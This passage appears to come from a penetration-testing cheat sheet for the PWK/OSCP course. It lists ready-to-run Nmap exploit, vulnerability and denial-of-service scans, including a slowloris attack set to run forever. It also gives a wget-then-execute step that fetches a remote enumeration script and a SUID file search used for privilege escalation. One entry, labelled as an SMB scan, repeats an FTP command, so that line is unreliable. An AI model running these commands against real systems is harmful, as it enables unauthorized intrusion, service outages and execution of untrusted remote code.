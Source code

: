 - Nmap search through Nmap Scripts for a specific keyword

`ls /usr/share/nmap/scripts/\* | grep ftp`

- Scan for vulnerable exploits with nmap

`nmap --script exploit -Pn $ip`

- NMap Auth Scripts

[*https://nmap.org/nsedoc/categories/auth.html*](https://nmap.org/nsedoc/categories/auth.html)

- Nmap Vuln Scanning

[*https://nmap.org/nsedoc/categories/vuln.html*](https://nmap.org/nsedoc/categories/vuln.html)

- NMap DOS Scanning

`nmap --script dos -Pn $ip   NMap Execute DOS Attack   nmap --max-parallelism 750 -Pn --script http-slowloris --script-args http-slowloris.runforever=true`

- Scan for coldfusion web vulnerabilities

`nmap -v -p 80 --script=http-vuln-cve2010-2861 $ip`

- Anonymous FTP dump with Nmap

`nmap -v -p 21 --script=ftp-anon.nse $ip-254`

- SMB Security mode scan with Nmap

`nmap -v -p 21 --script=ftp-anon.nse $ip-254`

- File Enumeration
    - Find UID 0 files root execution
    - `/usr/bin/find / -perm -g=s -o -perm -4000 ! -type l -maxdepth 3 -exec ls -ld {} \\; 2&gt;/dev/null`
    - Get handy linux file system enumeration script (/var/tmp)

`wget <https://highon.coffee/downloads/linux-local-enum.sh>  ``chmod +x ./linux-local-enum.sh  ``./linux-local-enum.sh`

    - Find executable files updated in August

`find / -executable -type f 2&gt; /dev/null | egrep -v "^/bin|^/var|^/etc|^/usr" | xargs ls -lh | grep Aug`

    - Find a specific file on linux

`find /. -name suid\*`

    - Find all the strings in a file

`strings &lt;filename&gt;`

    - Determine the type of a file

`file &lt;filename&gt;`
-

## [![](data:image/svg+xml,%3csvg xmlns='http://www.w3.org/2000/svg' class='octicon octicon-link js-evernote-checked' viewBox='0 0 16 16' version='1.1' width='16' height='16' aria-hidden='true' data-evernote-id='64'%3e%3cpath fill-rule='evenodd' d='M7.775 3.275a.75.75 0 001.06 1.06l1.25-1.25a2 2 0 112.83 2.83l-2.5 2.5a2 2 0 01-2.83 0 .75.75 0 00-1.06 1.06 3.5 3.5 0 004.95 0l2.5-2.5a3.5 3.5 0 00-4.95-4.95l-1.25 1.25zm-4.69 9.64a2 2 0 010-2.83l2.5-2.5a2 2 0 012.83 0 .75.75 0 001.06-1.06 3.5 3.5 0 00-4.95 0l-2.5 2.5a3.5 3.5 0 004.95 4.95l1.25-1.25a.75.75 0 00-1.06-1.06l-1.25 1.25a2 2 0 01-2.83 0z' data-evernote-id='1687' class='js-evernote-checked'%3e%3c/path%3e%3c/svg%3e)](https://github.com/m0chan/pwk-cheatsheet#http-enumeration)HTTP Enumeration
